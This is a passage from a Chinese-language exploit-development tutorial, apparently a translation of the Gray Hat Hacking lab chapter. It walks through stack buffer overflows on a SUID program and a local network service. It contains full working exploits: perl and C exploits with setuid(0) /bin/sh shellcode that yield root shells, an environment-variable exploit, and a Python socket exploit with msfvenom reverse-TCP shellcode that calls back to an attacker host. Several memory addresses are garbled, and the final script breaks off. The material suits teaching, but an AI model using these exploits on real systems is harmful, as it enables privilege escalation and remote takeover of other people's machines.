我们现在已成功使程序崩溃，可以看到 EIP 被覆盖为 0x41414141。接下来，让我们看看栈上有什么。为此，我们将使用“检查内存”命令，并要求 gdb 以十六进制输出。因为查看单个块并不总是非常有帮助，我们将一次查看 32 个字（4 字节）的批次。

```
(gdb) x/32wx $esp
0xbfffff13c:    0xbfffff300   0xbfffff393   0x00000000    0x00000000
0xbfffff14c:    0xb7e15276    0x00000003    0xbfffff1e4   0xbfffff1f4
0xbfffff15c:    0x00000000    0x00000000    0x00000000    0xb7fb0000
0xbfffff16c:    0xb7fffc04    0xb7ffff00    0x00000000    0x00000003
0xbfffff17c:    0xb7fb0000    0x00000000    0x855b54c5    0xb81d98d5
0xbfffff18c:    0x00000000    0x00000000    0x00000000    0x00000003
0xbfffff19c:    0x80000460    0x00000000    0xb7feff50    0xb7e15189
0xbfffff1ac:    0x80002000    0x00000003    0x80000460    0x00000000
```

我们仍然看不到我们的 A，所以要从栈中获取更多数据，可以直接按回车键。我们会继续，直到看到类似这样的内容：

```
0xbfffff33c:    0x00000019    0xbfffff36b   0x0000001f    0xbfffff2c
0xbfffff34c:    0x0000000f    0xbfffff37b   0x00000000    0x00000000
0xbfffff35c:    0x00000000    0x00000000    0x00000000    0x53000000
0xbfffff36c:    0xfa6c4546    0xf1dd3d5c    0xcb57217f    0x69fcb962
0xbfffff37c:    0x00363836    0x00000000    0x742f0000    0x6d2f706d
0xbfffff38c:    0x00746565    0x4100724d    0x41414141    0x41414141
0xbfffff39c:    0x41414141    0x41414141    0x41414141    0x41414141
0xbfffff3ac:    0x41414141    0x41414141    0x41414141    0x41414141
```

可以看到底部，我们的 A（0x41）已可见。我们可以安全地使用栈地址 0xbffff3ac 作为跳转地址。（记住，你的地址可能不同。）这将把我们带入 NOP 滑板，并且偏移了几个字，因此给我们一两个字节的容错空间。现在我们可以使用 Perl 在命令行上以小端格式写入此地址：

```
perl -e 'print "\xac\xf3\xff\xbf"x39';
```

在我们的例子中，数字 39 是通过一些简单的模运算计算出来的：

```
(412 bytes - 200 bytes of NOP - 59 bytes of Shellcode) / 4 bytes of address = 39
```

如果你把这个放到计算器里，你会注意到值是 38.25；不过，我们向上取整了。

当 Perl 命令被反引号（`）包裹时，它们可以连接起来形成更大的字符或数值序列。例如，我们可以构建一个 412 字节的攻击字符串，并像下面这样将其馈送给易受攻击的 meet.c 程序：

```
$ ./meet Mr `perl -e 'print "\x90"x200 . "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\xc0\xf3\xff\xbf"x39'`
Segmentation fault
```

这个 412 字节的攻击字符串用作第二个参数，并按以下方式创建缓冲区溢出：

- 200 字节的 NOPs ("\x90")
- 59 字节的 shellcode
- 156 字节的重复返回地址（请记住，由于 x86 处理器的小端格式，需要反转此顺序）

段错误表明漏洞利用崩溃了。可能的原因在于重复地址的对齐有误。具体来说，它们没有正确或完全覆盖栈上的保存返回地址。要检查这一点，只需增加使用的 NOP 数量：

```
$ ./meet Mr `perl -e 'print "\x90"x201 . "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\xc0\xf3\xff\xbf"x39'`
Segmentation fault
$ ./meet Mr `perl -e 'print "\x90"x202 . "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\xc0\xf3\xff\xbf"x39'`
Segmentation fault
$ ./meet Mr `perl -e 'print "\x90"x203 . "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\xc0\xf3\xff\xbf"x39'`
Hello
[binary garbage]
# id
uid=0(root) gid=1000(joeuser) groups=1000(joeuser)
```

它成功了！这里要意识到的重要一点是，命令行允许我们比通过编译和调试代码更高效地进行实验和调整值。

## Lab 11-4: 使用通用漏洞利用代码利用栈溢出

以下代码是在线和参考资料中找到的许多栈溢出漏洞利用的变体。它是通用的，因为它可以在许多情况下与许多漏洞利用一起使用。

```c
//exploit.c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
char shellcode[] = //setuid(0) & Aleph1's famous shellcode, see ref.
"\x31\xc0\x31\xdb\xb0\x17\xcd\x80" //setuid(0) first
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";
//Small function to retrieve the current esp value (only works locally)
unsigned long get_sp(void)
{
__asm__("movl %esp, %eax");
}

int main(int argc, char *argv[]) { //main function
int i, offset = 0; //used to count/subtract later
unsigned int esp, ret, *addr_ptr; //used to save addresses
char *buffer, *ptr; //two strings: buffer, ptr
int size = 500; //default buffer size

esp = get_sp(); //get local esp value
if(argc > 1) size = atoi(argv[1]); //if 1 argument, store to size
if(argc > 2) offset = atoi(argv[2]); //if 2 arguments, store offset
if(argc > 3) esp = strtoul(argv[3],NULL,0); //used for remote exploits
ret = esp - offset; //calc default value of return

//print directions for use
fprintf(stderr,"Usage: %s <buff_size> <offset> <esp:0xff...>\n", argv[0]); //print feedback of operation
fprintf(stderr,"ESP:0x%x Offset:0x%x Return:0x%x\n",esp,offset,ret);
buffer = (char *)malloc(size); //allocate buffer on heap
ptr = buffer; //temp pointer, set to location of buffer
addr_ptr = (unsigned int *) ptr; //temp addr_ptr, set to location of ptr
//Fill entire buffer with addresses, ensures proper alignment
for(i=0; i < size; i+=4) { // notice increment of 4 bytes for addr
*(addr_ptr++) = ret; //use addr_ptr to write into buffer
}

//Fill 1st half of exploit buffer with NOPs
for(i=0; i < size/2; i++) { //notice, we only write up to half of size
buffer[i] = '\x90'; //place NOPs in the first half of buffer
}

//Now, place shellcode
ptr = buffer + size/2;    //set the temp ptr at half of buffer size
for(i=0; i < strlen(shellcode); i++){    //write 1/2 of buffer til end of sc
  *(ptr++) = shellcode[i];    //write the shellcode into the buffer
}
//Terminate the string
buffer[size-1]=0;        //This is so our buffer ends with a \0
//Now, call the vulnerable program with buffer as 2nd argument.
execl("./meet", "meet", "Mr.",buffer,0);    //the list of args is ended w/0
printf("%s\n",buffer);    //used for remote exploits
//Free up the heap
free(buffer);        //play nicely
return 0;        //exit gracefully
}
```

该程序设置了一个名为 shellcode 的全局变量，用于以十六进制表示法存储生成 shell 的恶意机器代码。接下来，定义了一个函数，用于返回本地系统上 ESP 寄存器的当前值。main 函数最多接受三个参数，可选地设置溢出缓冲区的大小、缓冲区和 ESP 的偏移量，以及用于远程利用的手动 ESP 值。用户使用说明将打印到屏幕上，接着是所使用的内存位置。然后，恶意缓冲区从头开始构建，先填充地址，再填充 NOP，最后填充 shellcode。缓冲区以空字符终止。然后，缓冲区被注入到易受攻击的本地程序中，并打印到屏幕上（对远程利用很有用）。

让我们在 meet.c 上尝试我们的新漏洞利用：

# gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o exploit exploit.c
# chmod u+s meet
# useradd -m joe
# su joe
$ ./exploit 500 -300
Usage: ./exploit <buff_size> <offset> <esp:0xffff....>
ESP:0xbffff2dc Offset:0xfffffed4 Return:0xbffff408
Hello ������������������������������������������������������������1�1�.^�1��F�F
����������������������������������������������������������1�1�.^�1�1�F�F
 �V
1�g@�������/bin/sh�������������������������������������������������������
������������������������������������������������������������������������������
������������������������������������������������������������������������������
������������������������������������������������������������������������������
��������������������������������1�1�.^�1�1�F�F

�

�����V
1�g@�������/bin/sh�������������������������������������������������������
������������������������������������������������������������������������������
����������������
# id
uid=0(root) gid=1000(joeuser) groups=1000(joeuser)

它奏效了！请注意，我们以 root 身份编译了程序并将其设置为 SUID 程序。接着，我们切换到普通用户权限并运行了漏洞利用程序。我们获得了一个 root shell，运作良好。请注意，当使用 500 的缓冲区大小时，程序没有崩溃，而在之前的章节中我们使用 Perl 玩耍时程序会崩溃，这是因为本次我们以不同的方式调用了易受攻击的程序，即从漏洞利用程序内部调用。一般来说，这是一种更宽容的调用易受攻击程序的方式；不过，您的结果可能会有所不同。

## Lab 11-5: 利用小缓冲区

当易受攻击的缓冲区太小，无法像之前描述的那样使用漏洞利用缓冲区时会发生什么？大多数 shellcode 长度为 21–50 字节。如果您发现的易受攻击缓冲区只有 10 字节长怎么办？例如，让我们来看看带有小缓冲区的以下易受攻击代码：

```
#
# cat smallbuff.c
//smallbuff.c   This is a sample vulnerable program with a small buffer
#include <string.h>
int main(int argc, char * argv[]){
    char buff[10];   //small buffer
    strcpy( buff, argv[1]);  //problem: vulnerable function call
}
```

现在编译它并将其设置为 SUID：

```
# gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack \
-o smallbuff smallbuff.c
# chmod u+s smallbuff
# ls -l smallbuff
-rwsr-xr-x  1 root     root     4192 Apr 23 00:30 smallbuff
# cp smallbuff /home/joe
# su - joe
$ pwd
/home/joe
$
```

既然我们有了这样的程序，该如何利用它呢？答案在于使用环境变量。您可以将 shellcode 存储在环境变量或内存中的其他位置，然后将返回地址指向该环境变量，如下所示：

```
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdio.h>
#define VULN "./smallbuff"
#define SIZE 160
char shellcode[] =    //setuid(0) & Aleph1's shellcode + NOP Sled, see ref.
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x31\xc0\x31\xdb\xb0\x17\xcd\x80"   //setuid(0) first
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";
int main(int argc, char **argv){
    // injection buffer
    char p[SIZE];
// put the shellcode in target's envp
char *env[] = { shellcode, NULL };

// pointer to array of arrays, what to execute
char *vuln[] = { VULN, p, NULL };
int *ptr, i, addr;

// calculate the exact location of the shellcode
addr = 0xbfffffff - strlen(shellcode) - strlen(VULN);
fprintf(stderr, "[***] using address: %#010x\n", addr);

/* fill buffer with computed address */
ptr = (int * )(p+2); //start 2 bytes into array for stack alignment
for (i = 0; i < SIZE; i += 4){
    *ptr++ = addr;
}

//call the program with execle, which takes the environment as input
execle(vuln[0], (char *)vuln,p,NULL, env);
exit(1);
}
```

```
joeuser@kali:/tmp$ gcc -o exploit2 exploit2.c
joeuser@kali:/tmp$ ./exploit2
[***] using address: 0xbffffffa
... /bin/sh
# id
uid=0(root) gid=1000(joeuser) groups=1000(joeuser)
```

为什么这行得通？事实证明，由名叫 Murat Balaban 的土耳其黑客发布的这一技术，依赖于这样一个事实：所有 Linux ELF 文件都被映射到内存中，其最后的相对地址为 0xbfffffff。请记住，从第 2 章可知，环境变量和参数存储在此区域，其下方即为栈。让我们详细查看高级进程内存：



请注意，内存的末尾以空值终止；接下来是程序名称，然后是环境变量，最后是参数。exploit2.c 中的以下代码行将进程的环境设置为 shellcode：

```
char *env[] = { shellcode, NULL };
```

这将 shellcode 的开头放置在精确位置：

Addr of shellcode=0xbffffffa-length(program name)-length(shellcode) 。

让我们使用 gdb 验证这一点。首先，为了辅助调试，在 shellcode 开头放置一个 \xcc，以便在执行 shellcode 时使调试器停止。接下来，重新编译程序并将其加载到调试器中：

```
# gcc -o exploit2 exploit2.c # after adding \xcc before shellcode
# gdb exploit2 --quiet
(no debugging symbols found)...(gdb)
(gdb) r
Starting program: /tmp/exploit2
[***] using address: 0xbfffff8a
process 13718 is executing new program: /tmp/smallbuff
�����������������������������������������������������������������������������
1�1.�^�1�?�F�F
        �
      ���?v
� ��?/bin/sh
                1�?@�?
Program received signal SIGTRAP, Trace/breakpoint trap.
0xbfffffba in ?? ()
(gdb) x/32z 0xbfffff8a
0xbfffff8a: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffff9a: 0x90909090 0x90909090 0x90909090 0x90909090
0xbfffffaa: 0x90909090 0x90909090 0x90909090 0xcc909090
0xbfffffba: 0xdb31c031 0x80cd17b0 0x895e1feb 0xc0310876
0xbfffffca: 0x89074688 0x0bb00c46 0x4e8df389 0x0c568d08
0xbfffffda: 0xdb3180cd 0xcd40d889 0xffdce880 0x622fffff
0xbfffffea: 0x732f6e69 0x2f2e0068 0x6c616d73 0x66756266
0xbfffffa: 0x00000066 Cannot access memory at address 0xc0000000
```

当我们带有 \xcc 字符执行时，我们看到当执行停止时，消息略有不同。在这种情况下，程序因 SIGTRAP 而停止，因为我们添加的 \xcc 创建了一个软断点。当我们的执行遇到 \xcc 时，程序停止，表明该应用程序成功到达了我们的 shellcode。

### 漏洞利用开发流程

现在我们已经掌握了基础，您可以查看现实世界中的示例了。在现实世界中，漏洞并不总是像 meet.c 示例那样简单直接，需要一个可重复的流程来成功利用。漏洞利用开发流程通常遵循以下步骤：

- 1. 控制 EIP。
- 2. 确定偏移量。
- 3. 确定攻击向量。
- 4. 构建漏洞利用程序。
- 5. 测试漏洞利用程序。
- 6. 如有需要，调试漏洞利用程序。

起初，您应该严格遵循这些步骤；稍后，您可以根据需要合并其中几个步骤。

## Lab 11-6: 构建自定义漏洞利用程序

在本实验中，我们将查看一个您未曾见过的示例应用程序。这个名为 ch11_6 的应用程序，可从 Gray Hat Hacking Github 仓库获取。

### 控制 EIP

ch11_6 程序是一个网络应用程序。当我们运行它时，可以看到它正在监听 5555 端口：

```
root@kali:~/book# ./ch11_6 &
[1] 27702
root@kali:~# netstat -anlp | grep ch11_6
tcp 0 0.0.0.0:5555 0.0.0.0:* LISTEN 772/ch11_6
```

在测试应用程序时，我们有时可以通过发送长字符串来发现弱点。在另一个窗口中，让我们使用 netcat 连接到运行的二进制文件：

```
root@kali:~/book# nc localhost 5555
---------Login---------
Username: Test
Invalid Login!
Please Try again
```

现在，让我们使用 Perl 创建一个非常长的字符串，并通过 netcat 连接将其作为用户名发送：

```
root@kali:~/book# perl -e 'print "A"x8096' | nc localhost 5555
---------Login---------
Username: root@kali:~/book#
```

我们的二进制文件在处理大字符串时表现不同。为了弄清楚原因，我们需要将其放入调试器中。我们将在一个窗口中使用 gdb 运行易受攻击的程序，并在另一个窗口中发送长字符串。

图 11-2 显示了在调试器屏幕中发送长字符串时发生的情况。




图 11-2 在一个窗口中使用调试器，在另一个窗口中使用我们的长字符串，我们可以看到已经覆盖了 EIP 和 EBP。

我们现在有了一个典型的缓冲区溢出，并且已经覆盖了 EIP。这完成了漏洞利用开发过程的第一步。让我们进入下一步。

## 确定偏移量

在控制 EIP 之后，我们需要找出确切需要多少个字符才能干净地覆盖它（且仅覆盖它）。做到这一点最简单的方法是使用 Metasploit 的 pattern 工具。

首先，让我们创建一个 Python 脚本的骨架以连接到我们的监听器：

```
#!/usr/bin/python
import socket
total = 1024                                  # Total Length of Buffer String

s = socket.socket()
s.connect(("localhost", 5555))              # Connect to server
print s.recv(1024)                          # Receive Banner
exploit = "A"*total + "\n"                  # Build Exploit String
s.send(exploit)                             # Send Exploit String
s.close
```

当我们再次在 gdb 中启动我们的二进制文件并在另一个窗口中运行 Python 脚本时，我们仍然应该看到崩溃。如果是这样，Python 脚本就工作正常了。接下来，我们想要弄清楚溢出缓冲区确切需要多少个字符。为此，我们可以使用 Metasploit 的 pattern_create 工具，如下所示：

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1024
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0B
```

我们将此添加到我们的漏洞利用中：

```
#!/usr/bin/python
import socket

total = 1024                 # Total Length of Buffer String
sc = ""
sc += "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0B"

s = socket.socket()
s.connect(("localhost", 5555))   # Connect to server
print s.recv(1024)               # Receive Banner
exploit = sc                     # Build Exploit String
s.send(exploit)                  # Send Exploit String
s.close
```

现在，当我们运行漏洞利用时，我们在 gdb 中得到一个不同的覆盖：

```
Thread 2.1 "ch11_6" received signal SIGSEGV, Segmentation fault.
[Switching to process 14448]
0x41386941 in ?? ()
(gdb)
```

这里，我们在 EIP 中看到了来自我们模式的 0x41386941。Metasploit 的 pattern_create 工具有一个名为 pattern_offset 的姐妹工具。我们可以将 EIP 中的值放入 pattern_offset 以找出它在我们的原始模式中出现的位置。这为我们提供了缓冲区的长度，如下所示：

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1024 -q 0x41386941
[*] Exact match at offset 264
```

我们现在知道确切的偏移量是 264 字节，之后 EIP 将被覆盖。这为我们在发送 EIP 覆盖位置之前提供了所需的初始填充长度。总漏洞利用应保持 1,024 字节的大小，以确保在创建漏洞利用时偏移量不会改变。这应该为基本反弹 shell 有效载荷提供足够的空间。

## 确定攻击向量

一旦我们知道 EIP 被覆盖的位置，我们就必须确定需要跳转到栈上的什么地址才能执行有效载荷。为此，我们修改代码以添加一个 NOP 滑行。这为我们提供了一个更大的跳转区域，以便如果发生轻微情况且我们的位置有所变化，我们仍将落在 NOP 指令的某个位置。通过添加 32 个 NOP，我们应该覆盖 ESP 并为跳转的地址提供一些额外的灵活性。请记住，任何带有 "\x00" 的地址都无法工作，因为它被视为字符串终止符。

```
#!/usr/bin/python
import socket

total = 1024    # Total Length of Buffer String
off = 264       # Offset to EIP
sc = ""         # Shellcode Block
sc += "A"

noplen = 32     # Length of NOP Sled
jmp = "BBBB"    # Dummy EIP overwrite

s = socket.socket()
s.connect(("localhost", 5555)) # Connect to server
print s.recv(1024)             # Receive Banner
exploit = ""                   # Build Exploit String
exploit += "A"*off + jmp + "\x90"*noplen + sc
exploit += "C"*(total-off-4-len(sc)-noplen)

s.send(exploit)                # Send Exploit String
s.close
```

一旦我们重新启动 gdb 并运行我们的新漏洞利用代码，如果我们的 EIP 计算成功，我们应该看到 EIP 被四个 B 覆盖。通过新的更改，我们应该能够检查我们的栈以查看 NOP 滑行所在的位置：

```
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /root/Ch11/ch11_6
[New process 14469]

Thread 2.1 "ch11_6" received signal SIGSEGV, Segmentation fault.
[Switching to process 14469]
①0x42424242 in ?? ()
(gdb) x/32z $esp
②0xbffffff368: 0x90909090 0x90909090 0x90909090 0x90909090
0xbffffff378: 0x90909090 0x90909090 0x90909090 0x90909090
③0xbffffff388: 0x43434341 0x43434343 0x43434343 0x43434343
0xbffffff398: 0x43434343 0x43434343 0x43434343 0x43434343
0xbffffff3a8: 0x43434343 0x43434343 0x43434343 0x43434343
0xbffffff3b8: 0x43434343 0x43434343 0x43434343 0x43434343
0xbffffff3c8: 0x43434343 0x43434343 0x43434343 0x43434343
0xbffffff3d8: 0x43434343 0x43434343 0x43434343 0x43434343
```

我们可以看到 EIP ① 已被覆盖。在 0xbffffff368 ②，我们看到值被填充为我们的 NOP 指令，因此我们现在有一个返回地址。最后一个区域是 NOP 滑行之后的地址范围，即我们的 C 字符所在位置 ③。这就是我们的 shellcode 将被倾倒的位置；因此，如果我们跳入 NOP 滑行 ②，它应该直接将我们引导到我们的 shellcode。

## 构建漏洞利用

我们可以从头构建我们的漏洞利用，但 Metasploit 有能力为我们完成这项工作。使用 msfvenom，我们可以生成一些将在我们的模块中工作的 shellcode。我们将使用 linux/x86/shell_reverse_tcp 模块来创建一个附加到 shell 的 socket，它将回拨到我们的监听器上：

```
root@kali:~/book# msfvenom -p linux/x86/shell_reverse_tcp -f python \
LHOST=192.168.192.192 LPORT=8675
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of python file: 342 bytes
buf = ""
buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x53\x6a\x02\x89\xe1\xb0\x66"
buf += "\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0"
buf += "\xa8\xc0\xc0\x68\x02\x00\x21\xe3\x89\xe1\xb0\x66\x50"
buf += "\x51\x53\xbb\x03\x89\xe1\xcd\x80\x52\x68\x6e\xe2\x2f\x73"
buf += "\x68\x68\x2f\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
buf += "\x0b\xcd\x80"
```

LHOST 和 LPORT 选项分别是我们的监听主机和监听端口。-f 选项表示生成 Python 代码。但是，我们的输出存在一个问题。


字符串中间出现了一个空字符。这对我们的利用程序来说行不通，因为它会被视为字符串的结尾，因此剩余的有效载荷将不会执行。幸运的是，Metasploit 提供了一种解决方法——msfvenom 还可以对二进制文件进行编码以消除坏字符：

```
root@kali:~/book# msfvenom -p linux/x86/shell_reverse_tcp -b '\x00' \
-f python LHOST=192.168.192.192 LPORT=8675
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of python file: 470 bytes
buf = ""
buf += "\xb8\x7a\x9c\x2a\xd0\xda\xca\xd9\x74\x24\xf4\x5b\x31"
buf += "\xc9\xb1\x12\x31\x43\x12\x03\x43\x12\x83\x91\x60\xc8"
buf += "\x25\x54\x42\xfa\x25\xc5\x37\x56\xc0\xeb\x3e\xb9\xa4"
buf += "\x8d\x8d\xba\x56\x08\xbe\x84\x95\x2a\xf7\x83\xdc\x42"
buf += "\xc8\xdc\xdf\x52\xa0\x1e\xe0\x73\xd2\x96\x01\xc3\x72"
buf += "\xf9\x90\x70\xc8\xfa\x9b\x97\xe3\x7d\xc9\x3f\x92\x52"
buf += "\x9d\xd7\x02\x82\x4e\x45\xba\x55\x73\xdb\x6f\xef\x95"
buf += "\x6b\x84\x22\xd5"
```

将 `-b '\x00'` 作为参数添加将强制进行编码，以确保输出中没有空字符。这为我们提供了可以放入 Python 脚本中以进行最终利用的 shellcode。

### 验证利用程序

退出 gdb 并终止易受攻击应用程序的所有剩余实例后，我们可以重新启动它并使用最终利用程序进行测试：

```
#!/usr/bin/python
import socket

total = 1024         # Total Length of Buffer String
off = 264

sc = ""
sc += "\xb8\x7a\x9c\x2a\xd0\xda\xca\xd9\x74\x24\xf4\x5b\x31"
sc += "\xc9\xb1\x12\x31\x43\x12\x03\x43\x12\x83\x91\x60\xc8"
